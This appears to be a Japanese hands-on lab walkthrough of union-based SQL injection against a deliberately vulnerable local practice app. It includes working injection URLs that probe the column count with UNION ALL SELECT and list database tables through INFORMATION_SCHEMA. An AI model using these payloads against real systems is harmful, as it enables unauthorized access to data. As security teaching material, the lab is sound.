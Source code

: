 # Union-Based SQL Injection

## アプリケーション理解

http://localhost:8080/search.php にアクセスするとユーザー一覧が表示されます。

また検索フォームから、ユーザーの検索も可能です。

## ソースコード理解

このページのソースコードは [search.php](https://github.com/sanopy/sqli-handson/blob/main/src/search.php) から確認可能です。

また、ソースコードを詳しく調べると、 [SQLのクエリを構築する部分](https://github.com/sanopy/sqli-handson/blob/56a474a59028ed45aef3af34d99f867158063a5e/src/search.php#L8) にSQLインジェクションの脆弱性が存在することが分かります。

### 発行されるSQLクエリを観察

first_name: `alan` を入力したときは、以下のようなクエリが発行されます。

```sql
SELECT * FROM users WHERE username LIKE '%%' AND email LIKE '%%' AND first_name LIKE '%alan%' AND last_name LIKE '%%'
```

## カラム数を特定

[UNION句](https://dev.mysql.com/doc/refman/5.6/ja/union.html) を利用することで、SELECT文によるテーブルの取得結果を統合することが可能です。
つまり、UNION句が埋め込まれたクエリを実行させることで、DB中の任意の値を取得することが可能となります。

ただし、UNION句によってSELECT文の結果を統合する場合には、統合する取得結果同士でカラム数が同一である必要があります。

ソースコードが入手可能な場合には、発行されるクエリが取得するカラム数を特定することが可能ですが、そうでない場合には以下のように、SQLが正しく評価されるまで、UNION句によって結合するテーブルのカラム数を1つずつ増やしながら、カラム数を探索する方法があります。

- http://localhost:8080/search.php?email=%27+UNION+ALL+SELECT+1+--+
- http://localhost:8080/search.php?email=%27+UNION+ALL+SELECT+1%2C+1+--+
- ...
- http://localhost:8080/search.php?email=%27+UNION+ALL+SELECT+1%2C+1%2C+1%2C+1%2C+1%2C+1%2C+1+--+

## データベース情報を取得

MySQLには [INFORMATION_SCHEMA](https://dev.mysql.com/doc/refman/5.6/ja/information-schema.html) というデータベース中のメタデータが取得可能なテーブルが存在します。
以下は、 [INFORMATION_SCHEMA.TABLES](https://dev.mysql.com/doc/refman/5.6/ja/information-schema-tables-table.html) を用いて、データベース中のテーブル一覧を取得する例になります。

http://localhost:8080/search.php?username=xx&email=%27+UNION+ALL+SELECT+1%2C+TABLE_SCHEMA%2C+1%2C+TABLE_NAME%2C+TABLE_TYPE%2C+ENGINE%2C+1+FROM+INFORMATION_SCHEMA.TABLES+--+